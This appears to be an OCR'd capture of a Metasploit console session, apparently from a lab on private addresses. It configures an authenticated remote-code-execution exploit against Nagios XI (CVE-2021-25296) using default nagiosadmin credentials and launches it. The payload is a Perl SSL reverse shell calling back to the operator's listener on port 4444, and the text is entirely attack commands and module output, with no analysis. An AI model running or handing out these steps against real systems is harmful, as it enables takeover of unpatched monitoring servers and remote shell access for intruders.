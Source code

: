 ```
RHOST => 192.168.153.132
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FIN
set FINGERPRINTCHECK  set FINISH_INSTALL
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FINISH_INSTALL true
FINISH_INSTALL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  true             no        If the Nagios XI installation has not been completed,
                                              try to do so. This includes signing the license agreem
                                              ent.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port
                                              ][...]
   RHOSTS          192.168.153.132  yes       The target host(s), see https://github.com/rapid7/meta
                                              sploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This
                                               must be an address on the local machine or 0.0.0.0 to
                                               listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly
                                              generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25296   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE
                                              -2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   CMD



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

```
